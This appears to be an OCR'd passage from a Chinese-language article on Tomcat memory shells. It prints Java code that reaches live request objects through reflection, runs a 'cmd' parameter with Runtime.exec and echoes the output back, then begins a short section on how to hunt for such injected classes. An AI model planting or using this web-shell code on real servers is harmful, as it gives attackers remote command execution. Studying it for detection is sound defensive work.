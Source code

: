 ```java
            //获取内部类AbstractProtocol$ConnectionHandler的global属性
            Field globalHandler = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalHandler.setAccessible(true);
            RequestGroupInfo global = (RequestGroupInfo) globalHandler.get(handler);

            //获取processors
            Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processorsField.setAccessible(true);
            List<RequestInfo> requestInfoList = (List<RequestInfo>) processorsField.get(global);

            //获取request和response
            Field requestField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            requestField.setAccessible(true);
            for (RequestInfo requestInfo : requestInfoList){

                //获取org.apache.coyote.Request
                org.apache.coyote.Request request = (org.apache.coyote.Request) requestField.get(requestInfo);

                //通过org.apache.coyote.Request的Notes属性获取继承HttpServletRequest的org.apache.catalina.connector.Request
                org.apache.catalina.connector.Request http_request = (org.apache.catalina.connector.Request) request.getNote(1);
                org.apache.catalina.connector.Response http_response = http_request.getResponse();

                PrintWriter writer = http_response.getWriter();
                String cmd = http_request.getParameter("cmd");

                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                String result = scanner.hasNext()?scanner.next():"";
                scanner.close();
                writer.write(result);
                writer.flush();
                writer.close();
            }
 ......   

```

# 排查思路
## 基于各组件变化
①新增、修改的类；

②没有对应class文件的类
